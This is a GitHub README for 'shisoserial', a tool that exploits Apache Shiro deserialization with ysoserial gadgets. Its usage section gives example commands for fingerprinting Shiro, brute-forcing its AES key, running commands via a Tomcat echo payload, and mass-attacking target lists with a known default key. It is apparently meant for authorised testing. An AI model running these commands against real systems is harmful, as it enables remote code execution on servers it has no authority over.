




# shisoserial

## What is this

A simple tool targeted at shiro framework attacks with ysoserial.

## Contributor

[4nth0ny](https://github.com/4nth0ny1130) @Friday_lab

## Runtime

*   python 3.x

*   JDK 1.8

## Installation

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## Usage

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser] [--thread]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
  --thread , -T         Specific the number of threads
```

## Expample

### Check if shiro framework (default CBC mode)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```



### Use proxy angent cracking the shiro key with CBC mode

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```



### Use Tomcat echo payload attack with  CommonsCollectionsK1 gadget (no DNSlog used)

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```


### Mass use specified shiro key with Post method

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```



### Use serialize file send payload with multithreading

```
python3 shisoserial.py -m encode -u target_urls.txt -t cbc -s 1.ser -T 4
```



## Disclaimer

This tool can only be used in the safety construction of enterprises with sufficient legal authorization. During the use of this tool, you should ensure that all your actions comply with local laws and regulations. If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself, and all developers and all contributors of this tool will not bear any legal and joint liability.
